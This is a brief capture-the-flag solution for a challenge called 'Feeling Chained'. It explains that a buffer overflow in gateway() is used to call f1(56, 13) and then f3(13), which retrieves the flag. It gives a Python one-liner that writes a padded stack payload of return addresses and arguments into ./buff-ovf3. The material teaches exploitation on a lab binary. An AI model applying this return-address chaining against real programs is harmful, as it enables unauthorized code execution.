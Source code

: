 ```yaml
---
nav_order: 1
parent: 'Task: Feeling Chained'
---
```


# Solution

By using the buffer overflow in `gateway()`, functions `f1(56, 13)` and `f3(13)` need to be called in this order, with those exact parameters.
`f3` is the one that actually calls `get_flag()`.
Calling `get_flag()` directly shouldn't work (a global variable is checked to make sure all steps were made).

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*22 + b"\x56\x93\x04\x08" + b"\x00\x93\x04\x08" + b"\x38\x00\x00\x00" + b"\x0d\x00\x00\x00")' | ./buff-ovf3
```
